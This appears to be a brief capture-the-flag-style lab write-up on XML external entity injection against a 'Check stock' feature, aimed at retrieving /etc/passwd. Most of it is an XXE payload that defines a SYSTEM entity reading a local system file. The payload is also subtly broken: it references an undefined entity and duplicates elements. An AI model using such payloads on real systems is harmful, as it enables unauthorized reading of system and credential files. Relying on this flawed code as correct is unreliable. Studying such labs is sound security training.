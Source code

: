 # Lab: Exploiting XXE using external entities to retrieve files

(information disclosure via XXE)

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

Payload

``` <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE mydoc [ <!ENTITY payload SYSTEM "file:///etc/passwd" > ]>
                <stockCheck><productId>&myent;</productId><storeId>1</storeId>
                        <productId>
                            1
                        </productId>
                        <storeId>
                           1
                        </storeId>
                        <myTag>
                            &payload;
                        </myTag>
                </stockCheck>
```
